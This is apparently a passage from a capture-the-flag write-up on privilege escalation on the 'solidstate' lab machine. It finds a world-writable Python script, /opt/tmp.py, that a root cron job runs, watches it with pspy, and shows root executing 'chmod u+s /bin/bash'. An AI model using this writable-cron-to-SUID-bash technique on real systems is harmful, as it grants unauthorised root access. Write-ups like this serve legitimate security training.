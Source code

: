 There isn't that much interesting information in the output. Let's look for world writable files.

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
/opt/tmp.py
/proc
/sys/fs/cgroup/memory/cgroup.event_control
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ 
```

There is an interesting file in /opt. Let's have a closer look at it.

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ cd /opt
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -la
total 16
drwxr-xr-x  3 root root 4096 Aug 22  2017 .
drwxr-xr-x 22 root root 4096 Apr 26  2021 ..
drwxr-xr-x 11 root root 4096 Apr 26  2021 james-2.3.2
-rwxrwxrwx  1 root root  143 Nov  4 14:02 tmp.py
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py 
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()

${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ 
```

We need to see if this python script is being run regularly as a job of some sort. To do so, lets download pspy32 to the target system and run it to monitor processes.

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ./pspy32 
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
...
2021/11/04 14:23:34 CMD: UID=0    PID=1      | /sbin/init 
2021/11/04 14:24:01 CMD: UID=0    PID=22110  | /usr/sbin/CRON -f 
2021/11/04 14:24:01 CMD: UID=0    PID=22111  | /usr/sbin/CRON -f 
2021/11/04 14:24:01 CMD: UID=0    PID=22112  | python /opt/tmp.py 
2021/11/04 14:24:01 CMD: UID=0    PID=22113  | sh -c rm -r /tmp/*  
2021/11/04 14:24:01 CMD: UID=0    PID=22115  | sh -c chmod u+s /bin/bash 
2021/11/04 14:27:01 CMD: UID=0    PID=22117  | /usr/sbin/CRON -f 
2021/11/04 14:27:01 CMD: UID=0    PID=22118  | /bin/sh -c python /opt/tmp.py 
2021/11/04 14:27:01 CMD: UID=0    PID=22119  | python /opt/tmp.py 
2021/11/04 14:27:02 CMD: UID=0    PID=22120  | sh -c rm -r /tmp/*  
2021/11/04 14:27:02 CMD: UID=0    PID=22122  | sh -c chmod u+s /bin/bash 
^CExiting program... (interrupt)

```
